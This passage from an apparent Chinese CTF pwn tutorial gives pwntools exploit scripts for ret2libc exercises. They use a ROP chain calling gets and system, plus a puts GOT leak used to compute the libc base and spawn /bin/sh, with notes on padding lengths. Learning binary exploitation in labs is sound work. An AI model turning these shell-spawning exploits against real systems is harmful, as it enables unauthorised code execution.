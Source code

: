 ```python


def conn():
    if args.LOCAL:
        return process([exe.path])
    else:
        return remote('addr', 1337)


def main():
    r = conn()

    if args.G:
        gdb.attach(r)

    payload = flat(['a'*0x70, gets_addr, pop_ebx_addr, buf2_addr, call_system_addr, buf2_addr])

    r.sendline(payload)
    r.sendline('/bin/bash')

    r.interactive()


if __name__ == '__main__':
    main()

```

另外例2的思路对例1也是生效的，只是相关地址有所变化。  

### 例3
手动指定libc位置，成功的脚本：  
```python
# coding:utf8
# python3

from pwn import *
from LibcSearcher import LibcSearcher
sh = process('./ret2libc3')

ret2libc3 = ELF('./ret2libc3')
libc = ELF('/usr/lib/i386-linux-gnu/libc.so.6')

puts_plt = ret2libc3.plt['puts']
libc_puts_got = ret2libc3.got['puts']
main = ret2libc3.symbols['main']

print("leak libc_puts_got addr and return to main again")
payload = flat(['A' * 112, puts_plt, main, libc_puts_got])
sh.sendlineafter('Can you find it !?', payload)

print("get the related addr")
libc_puts_addr = u32(sh.recv()[0:4])
libcbase = libc_puts_addr - libc.symbols['puts']
system_addr = libcbase + libc.symbols['system']
binsh_addr = libcbase + next(libc.search(b'/bin/sh'))

print("get shell")
payload = flat(['A' * 104, system_addr, 0xdeadbeef, binsh_addr])
sh.sendline(payload)

sh.interactive()
```
第1次填充112，第2次填充104，是第2次直接跳到main开头地址，所以栈上弹出的2个地址让栈顶降低了，另外试一下跳到_start，两次填充的长度就一样了  